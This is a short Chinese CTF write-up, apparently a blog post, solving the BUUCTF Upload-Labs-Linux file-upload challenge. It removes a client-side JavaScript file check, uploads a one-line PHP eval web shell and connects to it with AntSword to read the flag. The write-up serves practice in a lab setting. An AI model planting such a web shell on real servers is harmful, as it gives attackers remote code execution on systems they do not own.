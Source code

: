 ```yaml
---
title: CTF：Upload-Labs-Linux
date: 2022-10-10 08:52:48
cover: img/Upload-Labs-Linux/20221010085420.png
tags:
- ctf
- buuctf
- antsword
---
```

# 题目预览：
![](/img/Upload-Labs-Linux/20221010085420.png)  
# 解决方法
1. 开控制台
2. 关闭javascript
   > 设置-偏好设置-调试程序
   删除`onsubmit="return.checkFile()"`
3. 新建一个文件里面写入`<?php @eval($_POST['123']);?>`
4. 后缀名改为php上传到网站，显示出图片后右键复制链接。
5. 打开antsword，add一个url地址为图片链接，密码为123，加密base64.
6. 点击链接就能发现根目录有个flag文件了。